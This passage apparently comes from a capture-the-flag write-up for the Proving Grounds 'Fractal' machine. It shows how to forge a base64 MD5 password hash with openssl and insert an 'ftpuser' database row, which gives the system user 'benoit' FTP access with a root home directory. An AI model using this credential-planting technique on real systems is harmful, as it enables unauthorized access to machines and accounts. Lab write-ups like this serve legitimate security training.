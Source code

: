     ![Untitled](../assets/img/provingrounds/Fractal/Untitled%2024.png)

It seems to have a password for www to access proftpd. FTP authentication through ProFTPD

I will create a new password for the user **benoit** who already exists in the system.

 

In the `{md5}` base64-encoded format. Therefore, the right way to generate a password for the user **benoit** is to use the base64-encoded MD5 hash method.


- `/bin/echo "{md5}"/bin/echo -n "hendrich" | openssl dgst -binary -md5 | openssl enc -base64`
- ```INSERT INTO `ftpuser` (`id`, `userid`, `passwd`, `uid`, `gid`, `homedir`, `shell`, `count`, `accessed`, `modified`) VALUES (NULL, 'benoit', '{md5}wZjbZseC3NVjPeEobwukRg==', 1000, 1000, '/', '/bin/bash', 0, NOW(), NOW());```
    
    ![Untitled](../assets/img/provingrounds/Fractal/Untitled%2025.png)
    